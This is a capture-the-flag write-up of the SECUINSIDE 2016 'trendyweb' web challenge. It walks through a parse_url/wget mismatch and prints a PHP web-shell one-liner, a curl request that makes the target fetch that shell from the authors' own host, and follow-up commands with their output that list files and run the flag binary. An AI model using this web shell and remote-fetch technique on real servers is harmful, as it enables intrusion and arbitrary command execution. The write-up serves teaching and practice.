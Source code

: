 # SECUINSIDE 2016: trendyweb

## Challenge details
| Event | Challenge | Category | Points |
|:------|:----------|:---------|-------:|
| SECUINSIDE | trendyweb | Web | ~~100~~ 0* |

\**Points were not rewarded due to time.*

### Description
> Trendy~! Web~
> The flag reader is on /.
>
> http://chal.cykor.kr:8082
> http://52.78.11.234:8082
>
> p.s.
> If the download doesn't work, try this:
> https://gist.github.com/Jinmo/e49dfef9b7325acb12566de3a7f88859
>
> and it requires data/ folder
> [index.php](index.php)

## Write-up
Upon inspecting [index.php](index.php) we clearly see there's some serialization
going on, but which peeked our initial interest. But when looking little further
we can see that the `download_image` function provides us with all we need:

```php
function download_image($url) {
  $url = parse_url($origUrl=$url);
  if(isset($url['scheme']) && $url['scheme'] == 'http')
    if($url['path'] == '/avatar.png') {
      system('/usr/bin/wget '.escapeshellarg($origUrl));
    }
}
```

Upon loading the page, at some point we see this function is called if
`POST['image']` is set:

```php
if(isset($_POST['image'])) download_image($_POST['image']);
```

So what does `download_image` actually do? As we can see it expects a URL, which
it then checks to be valid or not, by checking the `scheme` and `path` as
returned by php's `parse_url`. So let's see how 
[parse_url](http://php.net/manual/en/function.parse-url.php) actually works:

> ### Return Values
>
> On seriously malformed URLs, parse_url() may return FALSE.
>
> If the component parameter is omitted, an associative array is returned. At least one element will be present within the array. Potential keys within this array are:
>
>     scheme - e.g. http
>     host
>     port
>     user
>     pass
>     path
>     query - after the question mark ?
>     fragment - after the hashmark #
>
> If the component parameter is specified, parse_url() returns a string (or an integer, in the case of PHP_URL_PORT) instead of an array. If the requested component doesn't exist within the given URL, NULL will be returned.

This learns us that the querystring after `?` is not actually considered as a
part of the path. Which is logical, but conflicts in this case with wget's
behaviour. What happens is that wget **will** actually take the querystring into
account when saving the file, allowing us to exploit this function. First we
craft our malicious `avatar.png`:

```bash
$ echo "<?php system($_GET['cmd']); ?>" > avatar.png
```

Then we start a HTTP server (using `python3.5 -m http.server 8080` in our case), 
and verify it works as expected.

```bash
$ wget -q 127.0.0.1:8080/avatar.png?.php
$ ls avatar*
avatar.png  avatar.png?.php
```

Sweet, so let's get our malicious avatar onto the server, by making a POST request 
with the crafted url:

```bash
$ curl --data "image=http://smoke.leet.everyday/avatar.png?.php" http://chal.cykor.kr:8082

<img src="/data/5f390149ab1a4a8ed665/avatar.png" width=80 height=80 />
```

Our server logs verify the file has been requested by the target:
```bash
52.78.65.150 - - [10/Jul/2016 07:31:46] "GET /avatar.png?.php HTTP/1.1" 200 -
```

Sweet. Now let's see: (notice we URLencode the first `?` to `%3f`, to avoid it being
 interpreted as a premature start of the querystring, as well as the passed command):

```bash
$ curl http://chal.cykor.kr:8082/data/5f390149ab1a4a8ed665/avatar.png%3f.php?cmd=ls%20/
bin
boot
dev
etc
flag_is_heeeeeeeereeeeeee
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ curl "http://chal.cykor.kr:8082/data/5f390149ab1a4a8ed665/avatar.png%3f.php?cmd=cat%20/flag_is_heeeeeeeereeeeeee"
$
```

Nothing...? This had us wondering for a while, let's figure out what
`flag_is_heeeeeeeereeeeeee` actually is then...

```bash
$ curl "http://chal.cykor.kr:8082/data/5f390149ab1a4a8ed665/avatar.png%3f.php?cmd=ls%20-l%20/flag_is_heeeeeeeereeeeeee"
---x--x---. 1 root www-data 6172 Jul  9 08:26 /flag_is_heeeeeeeereeeeeee
```
### Solution
Ah, executable then, so let's run it, to finally get our flag:
```bash
curl "http://chal.cykor.kr:8082/data/5f390149ab1a4a8ed665/avatar.png%3f.php?cmd=/flag_is_heeeeeeeereeeeeee"
1-day is not trendy enough
```

### Looking back
Tadaa, the flag was `1-day is not trendy enough`. Now it would have been nice if
we were able around to start playing this CTF a little earlier on (logistics
fail on our side...), so we could have actually submitted the flag while the game
was still running. Maybe a prettier solution (and one that would have payed off if
poking around after getting a shell) than using curl here, would have been to 
write a small python script that would provide with an actual interactive shell
to play around with, by urlencoding our commands and crafting the querystring
automagically.

Ah well, funny little challenge and worth a writeup anyway.
